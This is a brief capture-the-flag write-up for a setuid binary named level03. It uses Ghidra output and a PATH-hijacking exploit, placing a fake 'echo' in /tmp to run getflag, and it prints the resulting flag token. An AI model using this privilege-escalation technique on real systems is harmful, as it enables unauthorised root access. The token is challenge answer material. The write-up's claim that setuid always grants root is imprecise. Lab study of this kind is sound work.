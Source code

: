 # First step

We have a level03 file on home directory.  
We can know this file have a 's' permission.  
What's means?  

    when a executable file with 's' permission is executed.
        -> the file is executed with root privileges (temporaire).  

```shell
$> ./level03
Exploit me
```

# Second step

With Ghidra:
```c
[...]
iVar1 = system("/usr/bin/env echo Exploit me");
[...]
```

We trying change local of echo file to /tmp with a fake echo executable.

```shell
$> echo 'getflag' > /tmp/echo

$> chmod +x /tmp/echo  

$> export PATH=/tmp:$PATH

$> ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```